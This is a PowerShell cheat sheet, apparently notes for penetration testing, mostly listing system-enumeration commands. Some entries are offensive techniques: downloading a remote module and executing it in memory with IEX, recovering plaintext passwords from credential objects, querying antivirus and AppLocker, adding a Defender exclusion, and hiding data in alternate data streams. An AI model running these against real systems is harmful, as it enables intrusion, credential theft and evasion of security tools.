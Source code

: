 # PowerShell

---

## Create a Credential (`PSCredential` Object)

```powershell
$password = ConvertTo-SecureString -AsPlain $PASSWORD -Force
$credential = New-Object System.Management.Automation.PSCredential($USERNAME, $password)
```

---

## Recover the Plaintext Password from a `PSCredential` Object

```powershell
$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($credential.Password)
[System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
```

---

## Download a File via HTTP(S)

```powershell
Invoke-WebRequest -Uri $URL -OutFile $OUTPUT_FILE_PATH
```

---

## Import a Remote PowerShell Module

Download the module and save it as a string in memory. Use `Invoke-Expression` to execute the string as actual PowerShell. This will define all of the functions for use on that line. This means that all the commands you need to execute from the module must be executed on the same line as the `Invoke-Expression` (`IEX`) statement.

```powershell
$module = (New-Object Net.Webclient).DownloadString("$REMOTE_MODULE_URL")
IEX $module; $COMMAND_1; $COMMAND_2; $COMMAND_N
```

---

## Query Operating System Information via WMI

```powershell
Get-CimInstance -ClassName "CIM_OperatingSystem"
```

---

## Query Operating System Version from .NET `Systen.Environment` Library

```powershell
[System.Environment]::OSVersion.Version
```

---

## Query Installed Updates via WMI

```powershell
Get-HotFix
```

```powershell
Get-CimInstance -ClassName "Win32_QuickFixEngineering"
```

---

## Query Installed Antivirus via WMI

```powershell
Get-CimInstance -Namespace root/securitycenter2 -ClassName antivirusproduct
```

---

## Query Environment Variables

```powershell
Get-Item Env:
```

---

## List Currently Running Processes

```powershell
Get-Process
```

---

## Query Network Adapters

```powershell
Get-NetAdapter
```

---

## Query Routing Table

```powershell
Get-NetRoute
```

---

## Query ARP Cache

```powershell
Get-NetNeighbor
```

---

## Query Network Listeners & Connections

```powershell
Get-NetIPConfiguration
```

---

## Query Local Users

```powershell
Get-LocalUser
```

---

## Query a Particular Local User

```powershell
Get-LocalUser $USERNAME
```

---

## Query Local Groups

```powershell
Get-LocalGroup
```

---

## Query a Particular Local Group

```powershell
Get-LocalGroup $GROUP_NAME
```

---

## Query SMB Shares

```powershell
Get-SmbShare
```

---

## Import a PowerShell Module

```powershell
Import-Module $PATH_TO_POWERSHELL_MODULE
```

---

## Add a Windows Defender Exclusion

In an administrative or SYSTEM context:

```powershell
Add-MpPreference -ExclusionPath $PATH_TO_FOLDER_TO_EXCLUDE
```

---

## Recursively Search the File System

```powershell
Get-ChildItem -Path C:\ -Include "$FILENAME" -Recurse -ErrorAction SilentlyContinue
```

- `$FILENAME` can contain wildcards

---

## Query Firewall Rules

```powershell
Get-NetFirewallRule
```

---

## Query AppLocker Policies

```powershell
Get-AppLockerPolicy
```

---

## Get PowerShell Version

```powershell
Get-Host | Select Version
```

---

## Find All Files with Alternate Data Streams

```powershell
Get-ChildItem -Recurse $DIRECTORY | % { Get-Item $_.FullName -Stream * } | where Stream -ne ':$Data'
```

---

## Show a File's Alternate Data Streams

```powershell
Get-Item -Path $FILE_PATH -Stream *
```

---

## Read a File's Alternate Data Stream

```powershell
Get-Content -Path $FILE_PATH -Stream $STREAM_NAME
```

---

## Write to a File's Alternate Data Stream

```powershell
Set-Content -Path $FILE_PATH -Stream $STREAM_NAME -Value $VALUE
```
